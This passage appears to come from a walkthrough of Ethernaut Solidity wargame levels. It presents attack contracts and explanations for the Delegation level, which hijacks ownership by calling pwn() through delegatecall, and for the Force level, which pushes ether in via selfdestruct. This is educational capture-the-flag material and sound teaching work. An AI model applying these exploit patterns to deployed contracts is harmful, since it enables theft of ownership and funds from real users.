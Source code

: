 Attack Payload:
```
contract Attack {
    address public delegation;

    constructor(address _delegation) public {
        delegation = _delegation;
    }

    function attack() public {
        delegation.call(abi.encodeWithSignature("pwn()"));
    }
}
```
To solve in command line:
```
var functionSignature = web3.utils.sha3("pwn()")
contract.sendTransaction({data: functionSignature})
```

Eve called Attack.attack().
Attack called the `fallback` function of `Delegation` sending the function selector of `pwn()`. `Delegation` forwards the call to `Delegate` using delegatecall.
Here `msg.data` contains the function selector of `pwn()`.
This tells Solidity to call the function `pwn()` inside `Delegate`.
The function `pwn()` updates the owner to `msg.sender`.
Delegatecall runs the code of `Delegate` using the context of `Delegation`.
Therefore `Delegation`'s storage was updated to `msg.sender` where `msg.sender` is the caller of `Delegation`, in this case Attack.


# 7. [Challenge 7: Force](https://ethernaut.openzeppelin.com/level/0x22699e6AdD7159C3C385bf4d7e1C647ddB3a99ea)

Tasks:
- Some contracts will simply not take your money ¯\_(ツ)_/¯
- The goal of this level is to make the balance of the contract greater than zero.

**Solution:** \
Vulnerable Code:
Attack Payload:
```
contract Attack {
    Force force;

    constructor(Force _force) public {
        force = Force(_force);
    }

    function attack() public payable {
        address payable addr = payable(address(force));
        selfdestruct(addr);
    }
}
```
To solve the challenge we can simply use `selfdestruct` in our contract and than it will send all the ether to our desire address.
